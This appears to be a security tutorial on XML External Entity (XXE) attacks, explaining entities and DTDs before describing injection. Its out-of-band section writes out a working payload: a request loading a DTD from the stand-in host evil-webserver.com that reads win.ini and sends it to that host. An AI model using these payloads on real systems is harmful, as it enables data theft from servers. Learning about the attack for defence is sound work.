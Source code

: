 # Vulnerability: XXE

### Description 

XXE = XML External Entity

This is a type of attack that targets `XML`[extensible markup language] parsers. The attack works by loading an `External Entity` into valid `XML`. This attack can lead to `data disclosure`, `dos`,`ssrf` and even `port scanning` of local resources.

## XML and its ENTITYs

### XML Entities

A way of representing an item of data within an `XML` doc. Certain entities are built in to the spec i.e `&lt;` and `&gt;` represent the chars `< >`, these are metachars use to denote `XML` tags and must be represented using their entities when they appear in data.

```xml
<!DOCTYPE foo [ <!ENTITY myentity "my entity val" > ]>
```

Now we could use `&myentity;` and it would be replaced with `"my entity value"`.

### What is a DTD

A DTD is a Document Type Definition.
A DTD defines the structure and the legal elements and attributes of an XML document. A DTD can be `Internal` or `External`, or a hybrid of the two.

### Why use a DTD

With a DTD, independent groups of people can agree on a standard DTD for interchanging data.
An application can use a DTD to verify that XML data is valid. 

### Internal DTD Declaration

If the DTD is declared inside the XML file, it must be wrapped inside the `<!DOCTYPE>` definition:
```xml
<?xml version="1.0"?>
<!DOCTYPE note [
<!ELEMENT note (to, from, heading, body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)>
]>
<note>
<to>Tove</to>
<from>Jani</from>
<heading>Reminder</heading>
<body>Text here</body>
</note>
```

### An External DTD Declaration
If the DTD is declared in an external file, the `<!DOCTYPE>`definition must contain a reference to the DTD file.

#### What are `XML external entities`?

A custon entity whose definition is located outside of the `DTD` where they are declared.

The declaration of an external entity uses the `SYSTEM` keyword and must specify a `URL` from which the value of the entity should be loaded.
```xml
<?xml version="1.0"?>
<!DOCTYPE note SYSTEM "note.dtd"> // the external dtd is being declared here with the SYSEM keyword
<note> // the dtd being being used -> not malicious YET
	<to>Tove</to>
	<from>Jani</from>
	<heading>Reminder</heading>
	<body>Text here</body>
</note>
```

Here is what the `dtd` file looks like
```xml
<!ELEMENT note (to,from,heading,body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)>
```

`ENTITY` tags within are simply shortcut to a special character that can be reference by calling the XML file. Notice that the last `ENTITY` tag is actually pulling the contents of a local file via the `SYSTEM` word.

```xml
<!DOCTYPE STRUCTURE [
<!ELEMENT SPECIFICATIONS (#PCDATA)>
<!ENTITY VERSION “1.1”>
<!ENTITY file SYSTEM “file:///c:/server_files/application.conf” >
]>
```

The above `.dtd` file might be used as follows

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPES foo SYSTEM "http://validserver.com"/formatting.dtd">
<specifications>&file;</specifications>
```

`formatting.dtd` is called using `DOCTYPE` tags and the XML file can reference the `ENTITYs` and structure within.

`ENTITYs` can be used without formality of full `.dtd` file. By calling `DOCTYPE` and using square brackets`[]`, you can reference `ENTITY` tags for use in only that XML file. Below the `application.conf` file is referenced for use in `<configuration></configuration>` tags, without a full `.dtd` file to host it:

```xml
<?xml version=”1.0″ encoding=”ISO-8859-1″?>
<!DOCTYPE example [
<!ELEMENT example ANY >
<!ENTITY file SYSTEM “file:///c:/server_files/application.conf” >
]>
<configuration>&file;</configuration>
```

### Summary

- DTD files can be external or internal to an XML file
- ENTITYs exist within DTD files
- ENTITYs can call local system files

## Injection

When data is passed in a `HTTP` request it opens the possibility of abuse from the user. In the case of a form wrapped in XML being sent to the server to be processed:

- Intercept vulnerable request with a web proxy
- Add injected ENTITY tag and `&xxe;` variable reference
	- ensure the `&xxe;` reference is with data that will be returned and displayed
- Release the intercept POST request

### Out of band

While some attacks might be as easy as that there are times where it is not as easy and here we turn to those external .dtd files mentioned. DOCTYPES references to external .dtd files allow us to conduct this attack entirely `out-of-band`

The following request contains a .dtd from a server the attacker controls - here is the request:

```bash
POST /notes/savenote HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: text/xml;charset=UTF-8.
Host: myserver.com

<?xml version=”1.0″ ?>
<!DOCTYPE hack [
<!ELEMENT x ANY >
<!ENTITY % alpha SYSTEM “https://evil-webserver.com/payload.dtd”>
%alpha;
%bravo;
]>
<x>&charlie;</x>
<note>
<to>Alice</to>
<from>Bob</from>
<header>Sync Meeting</header>
<time>1200</time>
<body>Meeting time changed</body>
</note>

```

And here is what that `payload.dtd` contains

```xml
<?xml version=”1.0″ encoding=”utf-8″ ?>
<!ENTITY % data SYSTEM “file:///c:/windows/win.ini”>
<!ENTITY % bravo “<!ENTITY % charlie SYSTEM
‘https://evil-webserver.com/?%data;’>”>
```

- Client sends the POST request with the injected XML code
	- The server, via the XML parser, parses the XML from top to bottom, reaching the injected ENTITY
- The server requests `payload.dtd` from `https://evil-webserver.com`
- `https://evil-webserver.com` responds with `payload.dtd`
- The code within payload.dtd is parsed by the XML parser, which reads the contents of win.ini and sends it as a parameter in an HTTP GET request back to `https://evil-webserver.com`

The extracted data can be viewed by the attacker in their web server logs.

## Learn more

[XXE Payloads](https://gist.github.com/staaldraad/01415b990939494879b4)

[Synack](https://www.synack.com/blog/a-deep-dive-into-xxe-injection/)

[PortSwigger Academy](https://portswigger.net/web-security/xxe)

[H1 Report](https://hackerone.com/reports/312543)

[PortSwigger](https://portswigger.net/web-security/xxe)

[Cracking the lens: targeting HTTP's hidden attack-surface](https://portswigger.net/blog/cracking-the-lens-targeting-https-hidden-attack-surface)

[Burp University](https://www.youtube.com/watch?v=9ZokuRHo-eY)
